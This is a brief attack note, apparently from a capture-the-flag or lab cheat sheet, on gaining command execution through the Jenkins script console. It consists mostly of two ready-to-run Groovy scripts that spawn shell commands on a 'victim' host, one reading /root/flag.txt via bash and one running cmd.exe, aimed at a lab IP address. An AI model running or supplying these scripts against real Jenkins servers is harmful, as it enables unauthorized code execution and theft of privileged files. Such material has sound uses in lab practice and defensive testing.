 # Jenkins

https://github.com/gquere/pwn_jenkins

 Go to
```
http://10.129.228.209:8080/script
```
Execute following Groovy script on Linux victim
```groovy
def sout = new StringBuilder(), serr = new StringBuilder()
def args = ['bash', '-c', 'cat /root/flag.txt']
def proc = new ProcessBuilder(args)
proc.redirectErrorStream(true)
def process = proc.start()
process.consumeProcessOutput(sout, serr)
process.waitForOrKill(2000)
println sout.toString()
```
Execute following Groovy script on Windows victim
```groovy
def sout = new StringBuilder(), serr = new StringBuilder()
def args = ['cmd.exe', '/c', 'echo halooo']
def proc = new ProcessBuilder(args)
proc.redirectErrorStream(true)
def process = proc.start()
process.consumeProcessOutput(sout, serr)
process.waitForOrKill(2000)
println sout.toString()
```
